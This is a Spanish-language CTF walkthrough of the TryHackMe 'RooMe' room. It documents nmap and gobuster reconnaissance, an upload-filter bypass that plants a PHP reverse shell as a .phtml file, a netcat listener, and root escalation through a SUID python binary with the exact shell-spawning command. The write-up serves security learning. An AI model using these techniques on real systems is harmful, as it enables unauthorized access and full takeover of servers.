


# RooMe
[](README.md) [](README.es.md)

## Dificultad: Fácil

Esta es una CTF interesante, gracias a la cual he aprendido la existencia de [GTFOBins](https://gtfobins.github.io/) y a cómo usarlo.

Esta CTF va por preguntas, como una sala normal de TryHackme.

## Task 1. Deploy the machine

### 1.1. Deploy the machine

`No answer needed`

## Task 2. Reconnaissance

Empiezo haciendo un ping para comprobar conectividad y si nos  enfrentamos a un Linux o un Windows:

```bash
ping -c 1 10.10.200.90
```

Por el ttl cercano a 64, se deduce que es un Linux.


Lanzo un nmap para ver los puertos abiertos. 

```
nmap -p- -sS 10.10.200.90
```


### 2.1. Scan the machine, how many ports are open?

`2`

Para la siguiente pregunta, lanzo nmap ahora enfocado en el puerto 80.


### 2.2. What version of Apache is running?

`2.4.41`

### 2.3. What service is running on port 22?

`ssh`

Visito la web a ver qué encuentro:


Lanzo gobuster para ver los directorios ocultos:

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.200.90/ -x txt,js,html,php
```


### 2.4. Find directories on the web server using the GoBuster tool.

`No answer needed`

### 2.5. What is the hidden directory?

`/panel/`

## Task 3. Getting a shell

Voy a uploads a ver:


Ahora a panel:


Hmm, tenemos una sección para subir ficheros, y un index de subidas, todo pinta a una Reverse Shell. Así que voy a intentar exactamente eso. Usando la Reverse Shell de [Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell) 

La descargo, edito con mi IP y algún puerto random como el 5555.


Pongo netcat a escuchar por el puerto 5555:

```
nc -lvnp 5555
```


Intento subirla:


Vale, no se puede subir un .php. Vamos a probar a usar .phtml, que funciona igual que PHP, pero si solo han filtrado .php puede colar:


Ha funcionado.

Vamos a activarla:


Ha funcionado, ya tenemos la Reverse Shell. Ahora uso el siguiente comando de python para convertirla en una shell TTY:

```python
python -c 'import pty; pty.spawn("/bin/bash")'

```

La tarea nos dice que la flag se llama user.txt, yo la he buscado en las distintas home pero nada, también en el directorio de inicio que es /, por tanto se me ocurre, sabiendo el nombre de la flag, buscarla directamente con find. Mando los errores a /dev/null porque no somos root y por tanto nos van a salir muchos mensajes de error por no tener permisos.

```
find / -name "user.txt" 2>/dev/null
```


Y un cat

```
cat /var/www/user.txt
```



### 3.1. Find a form to upload and get a reverse shell, and find the flag.

### user.txt

`THM{do_it_yourself}`

## Task 4. Privilege escalation

## Now that we have a shell, let's escalate our privileges to root.

Nos piden buscar ficheros con permisos SUID. SUID es el número 4000. Es un tipo especial de permiso, que hace que el archivo se ejecute con los permisos del usuario dueño, incluso si no lo eres. Por tanto vamos a buscar con find los que son propiedad del usuario root:

```
find / -user root -perm -4000 -type f 2>/dev/null
```

La pista nos informa de la existencia de GTFOBins. Un repositorio en línea con mucha información que podemos usar para escalar privilegios. Allí podemos filtrar por SUID y nos ayuda a encontrar el binario aprovechable:


### 4.1. Search for files with SUID permission, which file is weird?

`/usr/bin/python`

Así como el comando que necesitamos:

```
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```


### 4.2 Find a form to escalate your privileges.

`No answer needed`

Ya es solo mirar en /root:

```bash
ls /root
cat /root/root.txt
```



### 4.3. root.txt

`THM{do_it_yourself}